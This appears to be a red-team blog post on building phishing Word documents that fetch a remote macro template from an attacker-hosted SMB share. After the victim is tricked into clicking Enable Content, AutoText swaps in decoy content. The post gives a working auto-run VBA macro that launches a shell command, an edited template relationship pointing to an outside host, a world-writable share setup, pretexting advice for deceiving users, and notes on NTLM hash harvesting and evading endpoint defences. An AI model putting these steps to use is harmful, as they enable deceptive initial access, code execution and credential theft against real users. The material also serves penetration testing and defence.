

# Office Pretexting Using AutoText and Remote Templates

## Context

Delivering pretexts via email, and [packaging payloads in Office products](https://attack.mitre.org/techniques/T1204/002/) is almost as old a trick as contemporary infosec itself. As any good adversary knows, dirty tricks are the best tricks, and  pretext delivery software (Office) has emerged as a crucial toolkit in their arsenals. In this blog post, the focus will be leveraging both Remote Template execution and AutoText pretexts as a means to an end when performing phishing tests. These 2 techniques seek to accomplish the following:

1. Deliver Office payloads remotely, allowing for small degrees of EDR subversion as well as the ability to take down payloads after successful delivery.
2. Create a 'programmatic pretext' - i.e. entice a user to disable Office security controls and enable code execution by changing the observable content in the file based on such actions.

Since I haven't seen the 2 techniques combined on the blogs I follow, I wanted to take the opportunity to share the methodology. This post will additionally explore the possibility of harvesting credentials through the Office remote template negotiation.&#x20;

### Remote Templates

Office templates have been proved to be an efficient delivery for malicious macros remotely. In theory, a remote template referenced within an Office file allows an attacker to subvert some conventional heuristic-based EDR / AV controls, and subsequently compromise end-users within otherwise secure networks. This has been covered extensively in the infosec community, notably by [ired.team](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros) and [Red Xor Blue](https://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html), both of which I took extensive liberties from to write this blog post.

### AutoText

[AutoText](https://support.microsoft.com/en-us/office/create-reusable-text-snippets-0bc40cab-f49c-4e06-bcb2-cd43c1674d1b) is a no-brainer go-to for social engineers when constructing pretexts. The ability to programmatically swap out content in a document or a spreadsheet based on user-input is an extremely powerful feature to leverage. One common misconception about AutoText is that you can save it directly to the document. AutoText can only be embedded in a template / add-in, and must be referenced externally in pretexting scenarios for the following reasons:

* The template referenced in Word are different on every endpoint. For example, in the following screenshot, the default "Normal" template is referenced. This is a global template that for all intents and purposes could be different on any disk. Saving the AutoText snippet here would in effect limit your payload's efficacy to that single endpoint (most likely your test box).


* Add-ins can be added to documents at time of document compilation, but the template reference will not be embedded. The following screenshot displays the type of error you will encounter when attempting to load the snippet from a test endpoint from which the document was not originally compiled:

.png>)


Therefore using this approach, once the document is loaded on a victim machine which does not have the same `Normal.dotm` template locally, the Name of the AutoText, in this case "Finance", will throw a reference error. This underlines the need to host the AutoText snippet in a source that can be statically referenced, such as a remote template file.

## Methodology

### Preparing The Template

Create a new template, and then enter the macro editor. The following template calls `Switch` upon opening the file, which swaps out the main content of a document with the contents of the AutoText entry which will be created in the next step. `Shellz` then pops calc.exe as a placeholder for code execution.

```
'FinanceTemplate.dotm
Sub Document_Open()
    Switch
    Shellz
End Sub

Sub AutoOpen()
    Switch
    Shellz
End Sub

Sub Switch()
    ActiveDocument.Content.Select
    Selection.Delete
    ActiveDocument.AttachedTemplate.AutoTextEntries("Finance").Insert Where:=Selection.Range, RichText:=True
End Sub

Sub Shellz()
    Set objShell = CreateObject("Wscript.Shell")
    objShell.Run "calc"
End Sub

```

### Preparing the Pretext and AutoText

Next, input data which will be 'flipped' to once Macros are enabled must be created. Think of this data as the end result of a successful compromise, leaving the user oblivious to the successful code execution while maintaining the pretext's facade with the resultant, observable Office content. In other words, this is the content which the user will be served after being pretexted into enabling the execution of the macro.&#x20;

Come up with a valid pretext and create some convincing content, then select all of it.


Navigate to `Insert -> Quick Parts -> AutoText -> Save Selection to AutoText Gallery`

Save the AutoText snippet to the Template file:


The malicious template now has content-switching and command execution functionality embedded.

### Weaponize and Pretext the Office File

Create a new Office file, such as a `.docx`. Using the same pretext selected for the scenario, in this case financial data, create and save the document. Notice that the content restriction control which prevents macro code execution has been screenshotted, placed at the top-middle region of the document, and pointed out prominently (with a red box) to the user as the reason they can't see "real data".&#x20;

To bolster the facade even further, generate some junk data. The following powershell one-liner generates Base64 strings based on an input image. I do not recommend doing that in production however, since a savvy user may decode the good-natured trolling and burn your whole campaign.&#x20;

```powershell
[Convert]::ToBase64String((Get-Content -Path .\Capture.jpg -Encoding Byte)) >> capture.txt
```



Since Office files are zipped XML files, rename the Office file extension to `.zip`. Unzip the archive and edit `word_rels\settings.xml.rels`&#x20;

The structure of the XML will look something like the following:

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" 
	Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
	Target="file:///C:\Users\USer\AppData\Roaming\Microsoft\Templates\Template.dotx"
	TargetMode="External"/>
</Relationships>
```

The target will need to be changed to reference a share on the hosted attack infrastructure. If you want to learn more about hosting attack infrastructure, [check out my previous blog post.](https://blog.joeminicucci.com/2021/redira) A UNC path must be supplied, so pick your favorite hosting method. As an example, an SMB or WebDAV share would suffice.&#x20;

On the machine hosting the payloads, run the following to get an SMB share up (you may want to change the privileges!):

```clike
mkdir /root/smbshare
chmod -R 777 /root/smbshare
cat << EOF > /etc/samba/smb.conf
[thebestshareever]
path = /root/smbshare
browseable = yes
read only = no
EOF
systemctl restart nmbd
systemctl restart smbd
```

Next, change the `Target` XML node in the `settings.xml.rels` to the hostname of the payload server.&#x20;

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" 
	Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/attachedTemplate"
	Target="\\192.168.1.3/FinanceTemplate.dotm"
	TargetMode="External"/>
</Relationships>
```

Re-zip the `.docx` archive, making sure there is no root directory encapsulating the rest of the `.docx` structure. Structural changes to the directory structure of the `.zip` will corrupt the Office file parser and error out.

To test the document, open it in a test sandbox. The prospective subject will be greeted with the Pretext document prepared earlier. After clicking the "**Enable Content**" button to enable macros, the document will switch to the post-processed AutoText snippet, and execute the desired code (in this case `calc.exe`).

On the attack box, the remote template retrieval can be seen by tailing out the logs of the file sharing service chosen.&#x20;


### Credential Harvesting Considerations

In the [ired.team entry](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros), Mantvydas mentions that NTLM credential harvesting would be possible using responder on the same network. Since the scenario put forth in this blog entry focuses on externally hosted payload scenarios, it is important to consider how UNC based file retrievals function in Windows environments. [UNC negotiations will resort to WebDAV when outgoing SMB is not successful](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/) due to [network provider order](https://www.interfacett.com/blogs/changing-the-network-provider-order-in-windows-10/), and would theoretically function as follows in the Office remote template scenario:

* The hash harvest could be possible via standard SMB, but only if the corp firewall / IDS allows for SMB outbound past the perimeter.
* &#x20;WebDAV would most likely not work, since it would rely on unimplemented [SSPI ](https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture)interface within Office's business logic, as opposed to a native application such as Windows Explorer (i.e. browsing to a net share provides a credential prompt).
  * Even if the WebDAV method could provide an end-user credential challenge, it could come off as highly suspicious to the end-user.

## Conclusion

With an unprecedented level of security awareness training, information security personnel, and industry recognition, Office persists as a major problem to security teams. The attack principally relies on traditional social engineering tactics, as well as reliable execution methods which the Office desktop suite enables to adversaries out of a perceived functional necessity. The combination of whitty pretexting and mechanisms like AutoText and Office Macros will most likely continue trending as a prominent perimeter security linchpin well into the future.

## References

* [https://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html](https://blog.redxorblue.com/2018/07/executing-macros-from-docx-with-remote.html)
* [https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros](https://www.ired.team/offensive-security/initial-access/phishing-with-ms-office/inject-macros-from-a-remote-dotm-template-docx-with-macros)
* [https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/](https://www.n00py.io/2019/06/understanding-unc-paths-smb-and-webdav/)
* [https://www.interfacett.com/blogs/changing-the-network-provider-order-in-windows-10/](https://www.interfacett.com/blogs/changing-the-network-provider-order-in-windows-10/)
* [https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture](https://docs.microsoft.com/en-us/windows-server/security/windows-authentication/security-support-provider-interface-architecture)
